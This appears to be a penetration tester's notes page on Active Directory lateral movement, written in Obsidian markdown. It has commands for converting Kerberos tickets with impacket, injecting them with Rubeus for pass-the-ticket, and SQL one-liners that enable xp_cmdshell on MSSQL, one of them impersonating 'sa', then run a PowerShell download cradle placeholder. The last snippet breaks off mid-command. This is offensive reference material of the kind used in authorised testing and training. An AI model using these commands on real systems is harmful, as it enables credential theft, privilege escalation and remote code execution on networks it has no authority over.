 
## Lateral Movement 

```ad-seealso
title:Lateral Movement Techniques
collapse:true 

~~~dataview
list from #lateralmovement 
sort file.name asc
~~~
```

```ad-example
title: Convert Kerberos Tickets
collpase:yes

Converting a ccache file found in tmp: 

~~~bash
impacket-ticketConverter krb5cc_ ticket.kirbi
~~~

Converting kirbi to ccache

~~~bash
impacket-ticketConverter ticket.kirbi krb5cc_
~~~

Injecting ticket with Rubeus: 

~~~powershell
Rubeus.exe ptt /ticket:ticket.kirbi
~~~
```

```ad-example
title: MSSQL Lateral Movement
collpase:yes

[MSSQL AD Abuse | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)
[Pentesting MSSQL | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[MSSQL Injection | PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
[SQL injection cheat sheet | PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


Enable xp_cmdshell on current machine (one-liner)

~~~sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on current machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on remote machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa';
```